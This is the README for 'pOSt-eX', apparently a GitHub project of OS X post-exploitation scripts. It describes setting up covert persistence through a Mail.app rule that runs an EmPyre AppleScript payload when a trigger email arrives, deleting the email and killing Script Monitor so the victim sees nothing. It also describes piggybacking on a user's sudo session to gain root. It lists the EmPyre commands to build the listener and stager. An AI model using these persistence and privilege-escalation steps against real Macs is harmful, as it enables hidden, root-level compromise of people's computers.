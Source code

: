 # pOSt-eX - OS X post-exploitation scripts
- mail.py - Creates a an ApleScript payload with Empire and configures a mail rule to launch it
- persist.py - EmPyre module implimentation of mail.py
- monitor.py - Piggybacks off a users Sudo session to spawn an agent with root privileges 
- piggyback.py - EmPye module of monitor.py

## MailPersist - Post-exploitation script for OS X persistance 

## ABOUT:
This script creates a new rule in the OS X Mail application to automatically trigger an AppleScript payload when an email is recieved using a trigger word in the subject of the email.

The trigger email will be deleted before it is visible.  The Script Monitor will also be killed imediately after executing the python stager. There should not be any visual indicators. 

## INSTALL:

All dependancies are met on a default installation of OS X.  With that said, you will likely want to use EmPyre to create your AppleScript payload. 
https://github.com/adaptivethreat/EmPyre

## USAGE:
Creating an AppleScript payload with [Empyre](https://github.com/adaptivethreat/EmPyre):
```
(EmPyre) > listeners
(EmPyre: listeners) > set Name mylistener
(EmPyre: listeners) > execute
(EmPyre: listeners) > usestager applescript mylistener
(EmPyre: stager/applescript) > execute
```
Open mail.py and paste the output in the specified area.  Modify the trigger word as you see fit.  

When pasting the AppleScript payload from Empire, you need to make two modifications:
- Double up the backslash characters
- Remove the final double quote 


